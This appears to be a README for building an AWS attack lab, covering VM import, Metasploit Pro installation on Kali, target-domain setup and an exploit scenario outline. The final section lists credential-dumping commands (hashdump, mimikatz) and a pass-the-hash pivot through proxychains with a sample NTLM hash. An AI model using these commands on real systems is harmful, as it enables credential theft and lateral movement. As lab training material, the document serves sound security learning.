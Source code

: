 # AWS Attack Lab Build 

## Importing Vulnerable Machines
1. Identify supported [OS's](https://docs.aws.amazon.com/vm-import/latest/userguide/vm-import-ug.pdf) 
    - Ensure vulnerable
    - Test locally and make any modifications needed prior to export
2. Export VM from virtual enviornment to OVF 2.0
3. Setup S3 buckets and AWS roles according to [this docutment](https://docs.aws.amazon.com/vm-import/latest/userguide/vm-import-ug.pdf)
4. Upload exported OVA to S3:
```bash
aws s3 cp Server2016.ova s3://import-vmdks/Server2016.ova
```
5. Create JSON conversion template (server2016.json)
```json
[
  {
    "Description": "Server2016 OVA",
    "Format": "ova",
    "UserBucket": {
        "S3Bucket": "import-vmdks",
        "S3Key": "Server2016.ova"
    }
}]
```
6. Convert OVF
```bash
aws ec2 import-image --description "Server2017" --disk-containers "file:///Users/myuser/server2016.json"
```

## Metasploit Pro High Level 
Quick start on getting MSP up and running

1. Download Installer
- Windows: [64-Bit](https://downloads.metasploit.com/data/releases/metasploit-latest-windows-installer.exe)
- Linux: [64-Bit](https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run)

2. Install
Metasploit uses some of the same techniques as malware and malicious attackers to audit your security. For Metasploit to run properly, you must switch off anti-virus solutions and your local firewall before the installation and during its use. If you are not comfortable turning off defenses on this computer, consider installing Metasploit on a dedicated virtual machine (set virtual machine NIC to bridged mode). Ubuntu works great and doesn't incur any OS licensing fees.

Once the download is complete, run the installer and follow the step by step instructions. This installer contains all Metasploit editions.

3. Sometime: Activate license
*Get-LicenseKey*

4. Restart Service
```bash
sudo /opt/metasploit/ctlscript.sh restart
```
5. Check service is listening
```bash
netstat -anop | grep 3790
```
6. Setup ssh tunnel with local port forward to access web front end
```bash
ssh -L 3790:localhost:3790 -N -f ec2-user@PublicDNS -i key_pairs.pem
```
7. Browse to:
https://localhost:3790


## Kali
[DeployMSP.py](./DeployMSP.py) Deploys Kali. MSP installer is interactive so go ahead and step through installation. 
```bash
sudo apt update -y && apt upgrade -y
wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run -O /tmp/installer.run && sudo chmod 755 /tmp/installer.run
sudo /tmp/installer.run
sudo /opt/metasploit/ctlscript.sh restart
```

## Deploy Target Systems
1. Deploy domain
2. Add systems to domain
3. Ensure networking from VPC to internet and from VPC (target) to VPC (attacker) is good to go
4. Setup scenerios and stage accounts
    - Dual-homes machine needs to be deployed in one subnet with public ip auto assign. Once booted attached a elastic ip and connect another network interface to instance that is in the second subnet desired.
5. Iterate step 4.


## Exploit Scenario
- Remote Enumerate "RECON"
- Exploit Web server [Setting payload](https://metasploit.help.rapid7.com/docs/working-with-payloads)
    ```bash
    set lhost <public ip of kali in aws>
    ```
- [Local enum](https://www.coengoedegebure.com/hacking-windows-with-meterpreter/)

- Scenerio commands:
    - User in local admin group 
        * shell "net localgroup Administrators"
    - Drop hashes
        * run post/windows/gather/hashdump or mimikatz_command -f samdump::hashes
    - Network Enum
        * shell "route print -4"
    
- Local Enumerate
    - Establish proxy
- PiVOT using proxychains [cheatsheet](https://nullsweep.com/pivot-cheatsheet-for-pentesters/)
    * proxychains pth-winexe -U elserenterprise/belser%aad3b435b51404eeaad3b435b51404ee:29aa6786f9b94cfbe439934e542054ea //10.10.1.8 cmd [pth](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/)
- enumerate through pivot
- Dump domain creds